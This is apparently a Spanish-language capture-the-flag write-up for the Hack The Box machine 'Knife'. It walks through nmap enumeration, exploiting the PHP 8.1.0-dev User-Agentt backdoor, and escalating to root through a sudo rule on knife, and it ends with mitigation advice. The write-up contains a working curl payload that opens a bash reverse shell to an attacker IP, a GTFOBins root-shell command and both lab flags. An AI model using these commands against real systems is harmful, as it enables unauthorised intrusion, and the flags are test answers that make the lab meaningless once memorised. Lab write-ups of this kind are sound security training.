





# Knife

[{ .maquina-icono }](https://app.hackthebox.com/machines/Knife)

## Resumen

Servidor web que corre una versión de PHP (8.1.0-dev) con una puerta trasera conocida en la cabecera `User-Agentt`. Da ejecución como `james`, y un `sudo` sobre el binario `knife` permite escalar a root vía GTFOBins.

## 1. Enumeración

### 1.1 Ping

Primero vamos a realizar un `ping -c 10.129.78.40` en el que como respuesta vamos a tener lo siguiente:

```
64 bytes from 10.129.78.40: icmp_seq=1 ttl=63 time=53.9 ms
```

Por el ttl sabemos que es una máquina Linux.

### 1.2 Enumeración de puertos y servicios

Utilizaremos el siguiente nmap para buscar los puertos abiertos:

```
nmap -p- -open -T4 --min-rate 5000 10.129.78.40 -oN ~/HTB_machines/Knife/ports
```

Como respuesta obtuvimos lo siguiente:

```
22/tcp open  ssh
80/tcp open  http
```

Tanto el ssh como un http, así que con el siguiente comando profundizaremos más acerca de los servicios corriendo en esos puertos para profundizar en sí la información que tenemos:

```
nmap -p 80,22 -sVC -T4 --min-rate 5000 10.129.78.40 -oN ~/HTB_machines/Knife/targeted
```

La respuesta fue la siguiente:

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nos percatamos de dos factores: el primero es que en el puerto 80 tenemos un servicio Apache 2.4.41, un sistema que es vulnerable y lleva desactualizado desde 2019. Si hablamos del OpenSSH tenemos un Ubuntu antiguo servidor, lleva sin actualizarse desde 2021, pero no es vulnerable en sí, entonces nos centraremos en el http.

Ahora con el siguiente escaneo buscaremos vulnerabilidades ya interesantes en esos puertos con esas versiones en concreto, ejecutando el siguiente nmap:

```
nmap -p 80,22 --script vuln -T4 --min-rate 5000 10.129.78.40 -oN ~/HTB_machines/Knife/vulns
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|_  /icons/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.

Nmap done: 1 IP address (1 host up) scanned in 32.85 seconds
```

Podemos observar varias cosas: primero en el puerto ssh nada de nada, pero hay una carpeta en la web que es la `/icons/`, de potencial interés, así que vamos a echarle un vistazo y si no, utilizar una herramienta de fuzzing para enumerar subdominios. Al principio parece ser una página de un centro médico.


Antes de hacer fuzz, vamos a enumerar con un curl la cabecera de la web:

```
HTTP/1.1 200 OK
Date: Mon, 19 Oct 2026 16:02:52 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

Lo más importante es esto: `X-Powered-By: PHP/8.1.0-dev`, o sea, está escrita en PHP.

La versión tiene una vulnerabilidad que es un backdoor. No es en sí una inyección en PHP, sino que es un backdoor ya hecho que tiene exploits ya creados, por ejemplo este: *PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution* (`php/webapps/49933.py`).



---

## 2. Explotación

Para la explotación en sí vamos a ejecutar el script ya preinstalado en Kali Linux `49933.py` ([github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)):

```
sudo python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
```

Me pide la url de la web, que sería `http://10.129.78.40:80/`, y me abre directamente la reverse.



### 2.1 Escalada de privilegios y post explotación

Ya en la máquina, si queremos acceder al directorio `/home` para tener la flag o al root, no podemos, pero la manera de escalar privilegios sería ver qué exactamente podemos ejecutar como superusuario. En este caso utilizaremos `sudo -l` para verlo:

```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Knife es una herramienta documentada que nos da directamente, con un comando, acceso a la shell como root. El comando sería el siguiente:

```
sudo knife exec -E "exec \"/bin/sh\""
```



Tras ello navegamos a `/home/james` y hacemos `cat` a `user.txt`, obteniendo el siguiente output: `0b5d83ce1592f91e60061603b260b1f8`. Y luego a `/root` y hago `cat` a `root.txt`, que me da la flag: `c886b9a3411dc5c171acf5f86d12e2bb`.



---

## Notas importantes y adicionales de aprendizaje

*(Aquí ya se acaba la máquina, es por si eres curios@ y quieres aprender un poco más)*

A pesar de que he utilizado una escalada con un exploit, hay otra sencilla manera de realizar este proceso; el exploit en sí está bien, ya que es una manera de realizar una automatización de la explotación, pero hay una manera de mejorar y hacer la reverse de forma manual.

Si estudiamos a fondo la vulnerabilidad, mediante una específica frase a la hora de redactar una petición con curl, podemos hacer que el servidor ejecute nuestro texto como código, y de esa manera inyectar una reverse shell manual. En sí, no estamos inyectando nada; debe quedar claro que la reverse es redirigir las entradas y salidas de una máquina víctima con un puerto de la nuestra en el que estamos escuchando con netcat.

La manera de inyectar una shell manual sería con el siguiente comando:

```
curl -s http://10.129.78.40/ -H 'User-Agentt: zerodiumsystem("bash -c '"'"'bash -i >& /dev/tcp/10.10.16.120/4444 0>&1'"'"'");'
```

¿Por qué así? y ¿Por qué investigaríamos cómo hacerlo de la siguiente manera? Principalmente por el error de un exploit, el objetivo es hacer un `cat` al exploit y leer cómo funciona. Si lo leemos, vemos que simplemente hace un header a la web con ciertos parámetros que, si editamos, podemos abrir por nosotros mismos:

```php
if (str_starts_with($useragent, "zerodium")) {
    system(substr($useragent, 8)); // ejecuta el resto
}
```

El comando que lanzamos: con `-s` decimos que no haga barras de carga, indicamos la ip de la máquina, y con el `-H` hace un header especial que activa el backdoor bash:

```
bash -c 'bash -i >& /dev/tcp/10.10.16.120/4444 0>&1'
```

Es lo que ejecuta realmente, de manera que abre una consola interactiva (`bash -i`) y redirige el flujo de entrada y salida (`0>&1`) a nuestra máquina (`10.10.16.120`).

En la web [pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) podemos encontrar cómo abrir diferentes shells en diferentes lenguajes, útil en este ejercicio para el caso de PHP.

Luego escucharíamos con un `nc -lnvp 4444` en el puerto 4444 (listen, numeric, verbose y port) de manera que tenga el flujo en ese canal.

---

## Mitigación

No desplegar nunca versiones *dev* o no oficiales de PHP en producción: esta llevaba una puerta trasera introducida en el repositorio. Restringir las reglas de `sudo` y evitar permitir binarios que, como `knife`, pueden ejecutar código arbitrario (ver GTFOBins).

## Qué he aprendido

**Qué era la máquina:** un servidor web Apache con PHP 8.1.0-dev que tenía un backdoor introducido maliciosamente en el código fuente oficial de PHP.

**Enumeración:** `nmap` → puertos 22 (SSH) y 80 (HTTP) → `curl -I` → descubres `X-Powered-By: PHP/8.1.0-dev` → esa versión = backdoor conocido.

**Explotación:** el backdoor lee el header `User-Agentt` y ejecuta su contenido como PHP. Se aprovecha eso para mandar una reverse shell: curl con header malicioso → PHP ejecuta bash → bash redirige su entrada/salida a tu `nc`. Tu máquina escucha con `nc -lvnp 4444` y recibe la conexión → shell como `james`.

**Escalada de privilegios:** `sudo -l` → james puede ejecutar `/usr/bin/knife` como root sin contraseña → `sudo knife exec -E "exec \"/bin/sh\""` → shell como root.

**Concepto clave aprendido:** una reverse shell no es código que programas, es redirigir los canales de entrada/salida de bash por una conexión TCP hacia tu máquina. El mismo concepto que Tomcat, pero sin necesidad de subir archivo — la petición HTTP era el payload y la ejecución a la vez.

---



**Flags:**
- `user.txt` → `0b5d83ce1592f91e60061603b260b1f8`
- `root.txt` → `c886b9a3411dc5c171acf5f86d12e2bb`
